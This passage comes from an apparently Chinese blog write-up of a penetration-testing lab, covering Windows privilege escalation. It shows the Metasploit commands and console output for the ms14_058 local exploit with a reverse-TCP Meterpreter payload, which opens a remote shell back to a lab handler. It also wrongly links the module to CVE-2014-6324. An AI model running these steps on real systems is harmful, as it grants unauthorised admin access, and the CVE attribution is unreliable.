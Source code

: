 #### c）ms14\_058（成功）


`ms14_058_track_popup_menu`：利用了 Windows 中的 CVE\-2014\-6324 漏洞。该漏洞可以允许攻击者在获得最低权限的用户会话中提升权限到管理员级别。



> 这里有重现连了一下，所以session的id变了



```


|  | use windows/local/ms14_058_track_popup_menu |
| --- | --- |
|  | msf6 exploit(windows/local/ms14_058_track_popup_menu) > set payload windows/x64/meterpreter/reverse_tcp |
|  | payload => windows/x64/meterpreter/reverse_tcp |
|  | msf6 exploit(windows/local/ms14_058_track_popup_menu) > set target 1 |
|  | target => 1 |
|  | msf6 exploit(windows/local/ms14_058_track_popup_menu) >set session 2 |
|  | session => 2 |
|  | msf6 exploit(windows/local/ms14_058_track_popup_menu) > run |
|  |  |
|  | [*] Started reverse TCP handler on 192.168.111.10:4444 |
|  | [*] Reflectively injecting the exploit DLL and triggering the exploit... |
|  | [*] Launching msiexec to host the DLL... |
|  | [+] Process 4672 launched. |
|  | [*] Reflectively injecting the DLL into 4672... |
|  | [*] Sending stage (201798 bytes) to 192.168.111.80 |
|  | [+] Exploit finished, wait for (hopefully privileged) payload execution to complete. |
|  | [*] Meterpreter session 3 opened (192.168.111.10:4444 -> 192.168.111.80:63084) at 2024-09-26 15:09:59 +0800 |
|  |  |
|  | meterpreter > |


```

看到提权成功了


![image-20240926151304060](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039717-1350936472.png)


#### d）bypassuac（失败）


![image-20240926152636567](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039539-452888351.png)


还有很多方式，感兴趣可以自己尝试


## 六、横向渗透
